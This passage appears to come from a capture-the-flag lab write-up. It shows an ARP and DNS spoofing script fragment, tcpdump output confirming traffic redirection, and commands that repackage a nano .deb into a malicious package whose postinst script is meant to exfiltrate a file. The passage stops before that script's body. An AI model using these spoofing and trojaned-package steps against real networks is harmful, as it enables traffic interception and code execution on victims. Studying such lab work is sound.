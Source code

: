 ```ipaddr_we_arp_spoofed = "10.6.6.53"
    sendp(dns_response, iface="eth0")
```
## Verify incoming traffic
Now we run the DNS poisoning script in another pane and verify that both the ARP and the DNS poisoning attacks are working.
```
guest@29847c69ad6a:~$ tcpdump -n src host 10.6.6.35
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes
04:32:19.882406 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
04:32:20.481564 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [S.], seq 4256394238, ack 32042649, win 65160, options [mss 1460,sackOK,TS val 626668882 ecr 2887327827,nop,wscale 7], length 0
04:32:20.482458 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [.], ack 518, win 506, options [nop,nop,TS val 626668883 ecr 2887327828], length 0
04:32:20.483909 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [P.], seq 1:1514, ack 518, win 506, options [nop,nop,TS val 626668884 ecr 2887327828], length 1513
04:32:20.484946 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [P.], seq 1514:1769, ack 598, win 506, options [nop,nop,TS val 626668885 ecr 2887327830], length 255
04:32:20.485190 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [P.], seq 1769:2024, ack 810, win 505, options [nop,nop,TS val 626668886 ecr 2887327831], length 255
04:32:20.488384 IP 10.6.6.35.45802 > 10.6.0.2.80: Flags [S], seq 1443649395, win 64240, options [mss 1460,sackOK,TS val 626668889 ecr 0,nop,wscale 7], length 0
04:32:20.489449 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [FP.], seq 2024:2244, ack 810, win 505, options [nop,nop,TS val 626668890 ecr 2887327831], length 220
04:32:20.490952 IP 10.6.6.35.64352 > 10.6.0.2.42932: Flags [.], ack 811, win 505, options [nop,nop,TS val 626668891 ecr 2887327836], length 0
04:32:20.522762 IP 10.6.6.35.49790 > 10.6.6.53.53: 0+ A? ftp.osuosl.org. (32)
04:32:20.934339 ARP, Request who-has 10.6.6.53 tell 10.6.6.35, length 28
```

The machine is now receiving request from the poisoned machine on port 80, to verify the type of requests the machine receives we use `python3` `http.server` module.
```
uest@29847c69ad6a:~$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.6.6.35 - - [21/Dec/2020 04:34:47] code 404, message File not found
10.6.6.35 - - [21/Dec/2020 04:34:47] "GET /pub/jfrost/backdoor/suriv_amd64.deb HTTP/1.1" 404 -
```

The server receives requests for a debian package `/pub/jfrost/backdoor/suriv_amd64.deb`, so we can use that to deliver a malicious package and retrieve the flag.

## Building malicious deb pakcage
We reuse one fo teh packages already present on the machine to build our malicious payload.
```
cd debs
dpkg -x nano_4.8-1ubuntu1_amd64.deb work
mkdir work/DEBIAN
ar -x nano_4.8-1ubuntu1_amd64.deb
xz -d -v control.tar.xz
tar -xvf control.tar ./control
tar -xvf control.tar ./postinst
mv control work/DEBIAN/
mv postinst work/DEBIAN/
```
We modify the post installation script to exfiltrate the contents of the file we want and we set our machine to listen on the port we specify on the script.
```
work/DEBIAN/postinst  contents 
---START---
#!/bin/sh

if [ "$1" = "configure" ] || [ "$1" = "abort-upgrade" ]; then
```